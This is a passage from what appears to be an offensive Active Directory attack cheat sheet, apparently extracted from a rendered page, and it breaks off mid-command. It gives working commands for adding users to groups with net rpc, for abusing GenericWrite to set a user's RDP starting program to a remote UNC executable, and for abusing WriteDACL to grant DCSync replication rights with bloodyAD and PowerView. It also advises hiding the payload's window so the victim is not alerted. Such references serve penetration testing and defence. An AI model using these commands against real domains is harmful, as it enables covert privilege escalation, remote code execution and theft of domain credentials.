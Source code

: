 		net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
		```

### GenericWrite and Remote Connection Manager

> Now let’s say you are in an Active Directory environment that still actively uses a Windows Server version that has RCM enabled, or that you are able to enable RCM on a compromised RDSH, what can we actually do ? Well each user object in Active Directory has a tab called ‘Environment’.
>  
> This tab includes settings that, among other things, can be used to change what program is started when a user connects over the Remote Desktop Protocol (RDP) to a TS/RDSH in place of the normal graphical environment. The settings in the ‘Starting program’ field basically function like a windows shortcut, allowing you to supply either a local or remote (UNC) path to an executable which is to be started upon connecting to the remote host. During the logon process these values will be queried by the RCM process and run whatever executable is defined. - https://sensepost.com/blog/2020/ace-to-rce/

:warning: The RCM is only active on Terminal Servers/Remote Desktop Session Hosts. The RCM has also been disabled on recent version of Windows (>2016), it requires a registry change to re-enable.

* Windows/Linux:
	```ps1
	bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
	bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSWorkDirectory -v 'C:\'
	```
* Windows only:
	```ps1
	$UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
	$UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
	$UserObject.TerminalServicesWorkDirectory = "C:\"
	$UserObject.SetInfo()
	```

NOTE: To not alert the user the payload should hide its own process window and spawn the normal graphical environment.

## WriteDACL

To abuse `WriteDacl` to a domain object, you may grant yourself the DcSync privileges. It is possible to add any given account as a replication partner of the domain by applying the following extended rights `Replicating Directory Changes/Replicating Directory Changes All`.

* WriteDACL on Domain:
	* Windows/Linux:
		```ps1
		# Give DCSync right to the principal identity
		bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B add dcsync user2
		
		# Remove right after DCSync
		bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B remove dcsync user2
		```
	* Windows only: 
		```ps1
		# Give DCSync right to the principal identity
		Import-Module .\PowerView.ps1
		$SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
		$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)